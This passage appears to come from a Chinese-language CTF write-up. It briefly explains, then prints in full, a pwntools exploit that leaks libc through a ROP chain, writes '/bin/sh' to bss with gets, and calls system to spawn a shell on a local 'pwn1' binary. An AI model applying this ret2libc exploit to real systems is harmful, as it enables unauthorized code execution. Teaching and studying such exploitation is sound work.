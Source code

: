 其工作的方式与之前类似，不再赘述，效果为先执行gets函数向`bss+0x100`地址处读入数据，可在下一步中写入任意想要执行的命令，例如`/bin/sh\x00`。然后以该地址为参数调用system，即可获得shell。完整的利用代码如下。

```python
from pwn import *

name = "pwn1"

elf = ELF(name)

# libc = ELF("libc-2.31-dbg.so")
libc = ELF("/usr/lib/libc.so.6")

context(arch='amd64', terminal = ['konsole', '-e', 'zsh', '-c'], log_level = 'debug')

# p = process(['./ld-2.31-dbg.so', "./pwn1"], env = {"LD_PRELOAD": "./libc-2.31-dbg.so"})
p = elf.process()

# gdb.attach(p, gdbscript="c\n")
p.recvuntil(b':D\n')
rdi_ret = 0x401283
payload = cyclic(0x38)
payload += p64(rdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.entry)
p.sendline(payload)
l = p.recvuntil(b'\x0a',drop = True)
puts_got = u64(l.ljust(8, b'\x00'))
libc_addr = puts_got - libc.sym['puts']


log.info("libc=>{:x}".format(libc_addr))
p.recvuntil(b':D\n')
bss_addr = elf.bss() + 0x100
payload = cyclic(0x38)
payload += p64(rdi_ret)
payload += p64(bss_addr)
payload += p64(elf.plt['gets'])
# payload += p64(0)
payload += p64(rdi_ret)
payload += p64(bss_addr)
payload += p64(libc_addr + libc.sym['system'])

# one_gadgets = [0xcbcb1, 0xcbcb4, 0xcbcb7]
# payload = cyclic(0x38)
# payload += p64(libc_addr + one_gadgets[2])
p.sendline(payload)
p.sendline(b'/bin/sh\x00')
p.interactive()
```
